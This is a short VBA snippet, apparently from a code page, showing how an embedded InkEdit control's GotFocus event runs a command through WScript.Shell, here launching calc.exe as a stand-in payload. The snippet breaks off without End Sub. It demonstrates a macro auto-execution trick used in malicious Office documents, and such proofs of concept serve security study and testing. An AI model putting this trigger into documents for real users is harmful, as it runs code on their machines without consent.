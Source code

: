 ## Microsoft InkEdit Control
```
Sub InkEdit1_GotFocus()
  Dim payload as String
  payload = "calc.exe"
  CreateObject("Wscript.Shell").Run payload
```
